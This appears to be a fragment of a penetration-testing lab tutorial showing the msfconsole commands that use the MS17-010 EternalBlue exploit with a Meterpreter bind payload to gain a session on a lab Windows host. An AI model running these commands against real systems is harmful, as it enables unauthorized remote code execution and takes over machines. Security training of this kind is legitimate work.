

We're going to use “exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption”
b) Introduce the following commands in “msfconsole shell”.
msf5 > use 3 msf5 > show options msf5 > set RHOSTS 192.168.12.45 msf5 > set payload windows/x64/meterpreter/bind_tcp msf5 > run
Output: 
You got a meterpreter.
c) Background the session. Send the current Meterpreter session to the background and return you to the ‘msf’ prompt. To get back to your Meterpreter session, just interact with it again.